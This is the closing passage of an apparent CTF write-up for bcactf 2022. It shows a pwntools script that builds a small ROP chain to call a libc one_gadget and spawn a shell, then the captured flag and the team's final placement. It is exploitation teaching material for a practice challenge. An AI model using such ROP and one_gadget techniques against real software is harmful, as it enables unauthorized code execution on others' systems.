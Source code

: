 ```py
# this one needs r15 and rdx to be null, r15 is already  
target = 0xe6c81 + libc.address # 0xe6c7e or 0xe6c81 or 0xe6c84  

POP_RDX_RBX = 0x0000000000162866 + libc.address  
r.sendline(set8bytes(POP_RDX_RBX,rip))  
r.sendline(set8bytes(0,rip + 8))  
r.sendline(set8bytes(0,rip + 16))  
r.sendline(set8bytes(target,rip + 24))  
r.sendline() # to return out of main loop
```

I set rdx to 0 (r15 already is), and then call the `one_gadget` in this simple rop chain.

And there, I have a shell. a `cat flag.txt` yields

```
bcactf{pUtT1nG_1t_4LL_t0G3thr_65a3e0}
```

---
(I didn't solve Notetake WASM during the competition, and I don't think I am capable of doing it justice with a writeup )

---
And that's all the pwn challenges in bcactf 2022!
In the end, we were 4th (won $75 + $250 in DigitalOcean credits) in the high school division and scored 6675 out of 9125 total points. I certainly polished a lot of my pwn and rev techniques, thanks to BCA folks!
